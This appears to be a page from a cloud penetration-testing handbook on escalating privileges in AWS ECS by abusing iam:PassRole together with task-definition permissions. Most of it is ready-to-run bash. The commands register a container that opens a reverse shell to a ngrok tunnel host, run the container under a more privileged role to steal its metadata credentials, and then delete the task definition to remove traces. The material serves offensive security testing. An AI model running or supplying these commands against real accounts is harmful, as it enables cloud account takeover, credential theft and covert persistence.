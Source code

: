 #### Steal sensitive info from containers

The EC2 instance will probably also have the permission `ecr:GetAuthorizationToken` allowing it to **download images** (you could search for sensitive info in them).

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:RunTask`

An attacker abusing the `iam:PassRole`, `ecs:RegisterTaskDefinition` and `ecs:RunTask` permission in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --requires-compatibilities "[\"FARGATE\"]" \
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

# Run task definition
aws ecs run-task --task-definition iam_exfiltration \
    --cluster arn:aws:ecs:eu-west-1:947247140022:cluster/API \
    --launch-type FARGATE \
    --network-configuration "{\"awsvpcConfiguration\":{\"assignPublicIp\": \"ENABLED\", \"subnets\":[\"subnet-e282f9b8\"]}}"

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```

**Potential Impact:** Direct privesc to a different ECS role.

### `iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`

Just like in the previous example an attacker abusing the **`iam:PassRole`, `ecs:RegisterTaskDefinition`, `ecs:StartTask`** permissions in ECS can **generate a new task definition** with a **malicious container** that steals the metadata credentials and **run it**.\
However, in this case, a container instance to run the malicious task definition need to be.&#x20;

```bash
# Generate task definition with rev shell
aws ecs register-task-definition --family iam_exfiltration \
    --task-role-arn arn:aws:iam::947247140022:role/ecsTaskExecutionRole \
    --network-mode "awsvpc" \
    --cpu 256 --memory 512\
    --container-definitions "[{\"name\":\"exfil_creds\",\"image\":\"python:latest\",\"entryPoint\":[\"sh\", \"-c\"],\"command\":[\"/bin/bash -c \\\"bash -i >& /dev/tcp/0.tcp.ngrok.io/14280 0>&1\\\"\"]}]"

aws ecs start-task --task-definition iam_exfiltration \
    --container-instances <instance_id>

# Delete task definition
## You need to remove all the versions (:1 is enough if you just created one)
aws ecs deregister-task-definition --task-definition iam_exfiltration:1
```
